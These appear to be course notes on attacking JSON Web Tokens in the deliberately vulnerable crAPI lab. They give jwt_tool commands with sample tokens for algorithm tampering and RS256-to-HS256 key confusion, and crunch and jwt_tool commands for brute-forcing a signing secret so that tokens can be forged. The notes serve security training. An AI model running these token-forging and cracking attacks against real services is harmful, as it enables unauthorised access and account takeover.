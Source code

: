 ```bash
jwt_tool eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJnYWJ0ZXN0MUB0ZXN0LmNvbSIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjczNDUzOTMwLCJleHAiOjE2NzQwNTg3MzB9.c2jSKVKV2Fa-0Z8RmmquEMBggfaWB7kcb7VcqiuN4DYHNXCHYPtd-K93C4tcL8weg7M408hW4-XlLA6xBFxdJ41Io24CZRHkzrSTVIrdMxDPB8tTQUR8Ib61gMAZUeWb7IGHLgpyLCVBDyqy6q1cs6EFNcYVV69N7zakTTRUBKvNnvA62F0Zz7Rf_9YONP9U3nvn_qQJBQo1P3OoWsasuz1KIog-Z0mkRl-d53mJtXbyFiJDzgImzD-nKgQ4sKza2nqSguo1qqfLuf029Kmb7N2nxen8tHdkRht6TR5tZrXMxt047tQ8NCPj6ql-kEcBKwbHc4z4IpeSCtzkSR9wYw -X a
```

![jwt tool](../.res/2023-01-11-15-43-48.png)

- If provider accepts multiple algorithms, we can alter the algorithm. Example provided by Corey:  
For example, if the provider uses RS256 but doesn’t limit the acceptable algorithm values, we could alter the algorithm to HS256. This is useful, as RS256 is an asymmetric encryption scheme, meaning we need both the provider’s private key and a public key in order to accurately hash the JWT signature. Meanwhile, HS256 is symmetric encryption, so only one key is used for both the signature and verification of the token. If you can discover and obtain the provider’s RS256 public key then switch the algorithm from RS256 to HS256, there is a chance you may be able to leverage the RS256 public key as the HS256 key.
- `jwt_tool TOKEN -X k -pk public-key.pem` to leverage this attack with jwt_tool (we will get a new token)

##### JWT Crack Attack

- We try to crack the secret used for the JWT signature hash. We will try this on crAPI
- `crunch 5 5 -o crAPIpw.txt` create a list of all possible character combinations to use against crAPI. It will create a wordlist of 5 chars
- `jwt_tool TOKEN -C -d /wordlist.txt` to perform the attack in the context of crAPI we will run this `jwt_tool eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJnYWJAdGVzdC5jb20iLCJpYXQiOjE2NTg1MDY0NDYsImV4cCI6MTY1ODU5Mjg0Nn0.7mWRyaqQqcXsTXWmFhACIjS6SL7i5iB-NiXgmKpB0kqz739S1qltSRTYZQXt0GqoMpZmL6XwJ53aoHNerzz6qQ -C -d crAPIpw.txt`
![cracked key](../.res/2023-01-12-15-28-14.png)
- With the key we can create any token we want